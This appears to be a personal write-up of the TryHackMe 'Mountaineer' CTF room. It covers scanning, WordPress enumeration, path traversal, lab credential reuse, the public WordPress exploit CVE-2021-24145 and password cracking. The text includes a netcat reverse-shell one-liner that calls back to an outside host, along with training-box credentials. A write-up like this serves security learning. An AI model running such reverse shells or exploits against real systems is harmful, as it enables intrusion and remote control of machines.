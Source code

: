 ```yaml
---
title: TryHackMe Mountaineer
date: 2024-10-22
tags: [tryhackme, ctf]
author: nandakishor
---
```


# Mountaineer tryhackme
MOUNTAINEER
The Mountaineer room on TryHackMe is a beginner-friendly CTF challenge that focuses on Linux enumeration and privilege escalation. The task involves discovering hidden files, exploring SSH access, and exploiting common misconfigurations or weak permissions to gain elevated privileges on the system. This room is great for reinforcing fundamental skills in Linux privilege escalation and system enumeration.

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 141106.png>)

For initial recon i used rustscan with -sCV flag
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145602.png>)
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145707.png>)

Port 22 (SSH): Running OpenSSH 8.9p1 on Ubuntu
Port 80 (HTTP): Running nginx 1.18.0 on Ubuntu
To gather more detailed information, I followed up with a Nmap scan on the detected ports, which provided additional details:

The SSH server uses ECDSA and ED25519 host keys.
The HTTP service is running nginx, supporting basic methods like GET and HEAD. The default nginx welcome page was displayed, suggesting no specific web application was immediately accessible.


![alt text](../assets/images/mountaineer/image.png)
I run a ffuf scan and i found wordpress directory


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145844.png>)
This is the wordpress website, in the mean time i used ffuf to enumerate for more directories

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150118.png>)
we can see a domain name here so add it to /etc/hosts

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150253.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150549.png>)
This is the website

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 151717.png>)
Use wpscan for more info, and

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 151832.png>)
we can see a theme is installed init
I used to exploit it but it didnt worked

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152126.png>)
Also we got some usernames:

ChoOyu
Everest
MontBlanc
admin
everest
montblanc
chooyu
k2

save into a text file.

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152314.png>)
we can see a image directory , capture the request

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152704.png>)
We can see a potential path traversal here


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152831.png>)
I used chat gpt to find the location of ngix that we can get some info

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152916.png>)
this is the intersting location that i found


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153018.png>)
we can see a vhost name there, add it to /etc/host file

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153105.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153156.png>)
Its a login page, it requires creds, so i tries SQL injection and other login bypass methos, nothing worked so i used the username that we got from WP scan to bypass it

`k2:k2`

is the usename and password

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153904.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154017.png>)

i got a password

th3_tall3st_password_in_th3_world

And another intersting mail
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154109.png>)



We already have a password and username , so i used it against wp-admin

`k2:th3_tall3st_password_in_th3_world`
it worked
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154338.png>)


If we have the authentication we can use the exploit CVE-2021-24145

https://github.com/Hacker5preme/Exploits/tree/main/Wordpress/CVE-2021-24145

we can download it from here

And exploit it 
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154945.png>)

we got a shell

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155014.png>)

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ip port >/tmp/f

I used this to get the reverse shell
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155208.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155239.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155405.png>)
we can see a backup file here , get into my system and analyse it

http.server method doesnt worked so i used nc method to transfer file

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160201.png>)
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160311.png>)

I used john to crack the password

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160335.png>)

But the rockyou is't working for me , and its taking too much time,
so i created a custom wordlist to crack it

We can use tools like Crunch,cewl, cupp to do this,

i used cupp , Because 
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160856.png>)

this format looks similar to the cupp

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161146.png>)
we got out custom wordlist

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161249.png>)

The password is cracked

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161506.png>)

Basic Commands

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161643.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161731.png>)

We got a username and password , its probaly for ssh
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161827.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 175735.png>)

Login using ssh
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 175827.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 180217.png>)
We can direcly get the root password brom the bash history

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 180356.png>)
